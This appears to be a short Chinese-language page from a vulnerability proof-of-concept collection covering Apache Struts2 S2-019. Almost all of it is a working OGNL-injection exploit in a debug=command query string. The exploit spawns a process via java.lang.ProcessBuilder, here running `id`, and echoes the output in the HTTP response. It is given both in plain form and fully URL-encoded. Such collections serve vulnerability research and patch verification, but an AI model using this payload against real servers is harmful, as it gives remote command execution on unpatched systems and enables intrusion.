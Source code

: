 ![s2-019-1](images/s2-019-1.png)

任意命令执行 PoC，执行 `id` 命令

编码前

```
?debug=command&expression=#a=(new java.lang.ProcessBuilder('id')).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b)
,#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#out=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletRe
sponse'),#out.getWriter().println('dbapp:'+new java.lang.String(#e)),#out.getWriter().flush(),#out.getWriter().close()
```

url 编码后

```
?%64%65%62%75%67=%63%6f%6d%6d%61%6e%64&%65%78%70%72%65%73%73%69%6f%6e=%23%61%3d%28%6e%65%77%20%6a%61%76%61%2e%6c%61%6e%67%2e%50%72%6f%63%65%73%73%42%75%69%6c%64%65%72%28%27%69%64%27%29%29%2e%73%74%61%72%74%28%29%2c%23%62=%23%61%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%2c%23%63=%6e%65%77%20%6a%61%76%61%2e%69%6f%2e%49%6e%70%75%74%53%74%72%65%61%6d%52%65%61%64%65%72%28%23%62%29%2c%23%64%3d%6e%65%77%20%6a%61%76%61%2e%69%6f%2e%42%75%66%66%65%72%65%64%52%65%61%64%65%72%28%23%63%29%2c%23%65=%6e%65%77%20%63%68%61%72%5b%35%30%30%30%30%5d%2c%23%64%2e%72%65%61%64%28%23%65%29%2c%23%6f%75%74=%23%63%6f%6e%74%65%78%74%2e%67%65%74%28%27%63%6f%6d%2e%6f%70%65%6e%73%79%6d%70%68%6f%6e%79%2e%78%77%6f%72%6b%32%2e%64%69%73%70%61%74%63%68%65%72%2e%48%74%74%70%53%65%72%76%6c%65%74%52%65%73%70%6f%6e%73%65%27%29%2c%23%6f%75%74%2e%67%65%74%57%72%69%74%65%72%28%29%2e%70%72%69%6e%74%6c%6e%28%27%64%62%61%70%70%3a%27%2b%6e%65%77%20%6a%61%76%61%2e%6c%61%6e%67%2e%53%74%72%69%6e%67%28%23%65%29%29%2c%23%6f%75%74%2e%67%65%74%57%72%69%74%65%72%28%29%2e%66%6c%75%73%68%28%29%2c%23%6f%75%74%2e%67%65%74%57%72%69%74%65%72%28%29%2e%63%6c%6f%73%65%28%29
```
